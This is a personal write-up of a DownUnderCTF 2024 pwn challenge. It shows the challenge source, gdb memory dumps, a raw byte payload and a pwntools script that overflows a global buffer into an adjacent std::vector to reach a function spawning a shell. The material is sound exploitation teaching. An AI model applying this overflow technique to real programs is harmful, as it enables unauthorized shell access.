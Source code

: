 
Please overflow into the vector and control it!


### Reflection

After taking a break for a few months, it took quite some time to get back into the swing of things.
I found this challenge quite frustrating as I couldn't quite work out exactly why I was getting segmentation faults and other pointer errors with what I was sure was a working exploit. Checking out `std::vector` showed there are three elements to a vector, start position, end position and capacity but for some reason, my manual exploit gave a segmentation fault even though when looking at a writeup after, it was correct

### Summary


#### Tools used:

[[gdb-pwndbg]]
[[Valgrind]]
[[pwntools]]

#### Method
Given two files, the binary and source code. The important bits being:

	char buf[16];
	std::vector<char> v = {'X', 'X', 'X', 'X', 'X'};
	
	void lose() {
	    puts("Bye!");
	    exit(1);
	}
	
	void win() {
	    system("/bin/sh");
	    exit(0);
	}
		
	int main() {
	    char ductf[6] = "DUCTF";
	    char* d = ductf;
		
	    std::cin >> buf;
	    if(v.size() == 5) {
	        for(auto &c : v) {
	            if(c != *d++) {
	                lose();
	            }
	        }
	        win();
	    }
	    lose();
	}

`└─$ checksec --file=vector_overflow
`Partial RELRO   Canary found      NX enabled    No PIE          No RPATH   No RUNPATH
`


The code above shows `std::cin >> buf;` is allocated to the char array `buf[16]` but as there is no bounds checking this (as the name suggests) will allow an overflow of the vector directly after it (). As PIE is disabled, this means we know exactly where that overflow will happen so we can the data we want in the vector, add some junk to fill the `buf` char array then overflow the following memory to point to our data with the end point and capacity immediately following.

using gdb-pwndbg, we can see that the the memory address of the start of the `buf` array is `RSI  0x4051e0 (buf) ◂— 0`

If we examine this memory using `x/16x 0x4051e0` we can see the following:

`pwndbg> x/32x 0x4051e0
`0x4051e0 <buf>: 0x61616161      0x62626262      0x63636363      0x64646464
`0x4051f0 <v>:   0x00418200      0x00000000      0x004182b5      0x00000000
`0x405200 <v+16>:        0x004182b5      0x00000000      0x00000000      0x00000000

We can see our entry of `aaaabbbbccccdddd` filling the 16 bit char array and the following vector allocated to `0x4051f0`. Entering `aaaabbbbccccddddeeee` to the binary should overflow the vector address with `0x65656565`

`pwndbg> x/32x 0x4051e0
`0x4051e0 <buf>: 0x61616161      0x62626262      0x63636363      0x64646464
`0x4051f0 <v>:   0x65656565      0x00000000      0x004182b5      0x00000000


So in theory, all we have to do is overwrite the three memory addresses following our char buffer with the position of the buffer, the end of the vector (in this case, as we are writing 'DUCTF' into the vector, it will be 5 bytes after the initial `buf` address) and the capacity which should be the same as the end address


**Here is where i tripped up** - up until now, I had been using a manual method of inputting the bytes needed with python2. 

`python2 -c "print 'DUCTF' + 'a' * 11 + '\xe0\x51\x40\x00\x00\x00\x00\x00\xe5\x51\x40\x00\x00\x00\x00\x00\xe5\x51\x40\x00\x00\x00\x00\x00'" > payload`

I then redirected the payload to the program:

```
┌──(kali㉿kali)-[~/Documents/Down Under CTF 24/pwn/vector overflow]
└─$ python2 -c "print 'DUCTF' + '\x00' * 11 + '\xe0\x51\x40\x00\x00\x00\x00\x00\xe5\x51\x40\x00\x00\x00\x00\x00\xe5\x51\x40\x00\x00\x00\x00\x00'" > payload

┌──(kali㉿kali)-[~/Documents/Down Under CTF 24/pwn/vector overflow]
└─$ ./vector_overflow < payload_final
free(): invalid pointer
zsh: IOT instruction  ./vector_overflow < payload
```

Unfortunately, I was not able to debug this in time for the challenge to end so didn't manage to get this working. 

After the challenge had ended, i tried a simple script on the binary using pwntools which works locally. I was unable to try this on the remote server.


```
from pwn import *

elf = ELF('./vector_overflow', checksec=False)
context.binary = elf

p = elf.process()
buf_address = 0x4051e0

payload = b"DUCTF"
payload += b"a" * 11
payload += p64(buf_address)
payload += p64(buf_address + 5)
payload += p64(buf_address + 5)

p.sendline(payload)

p.interactive()
```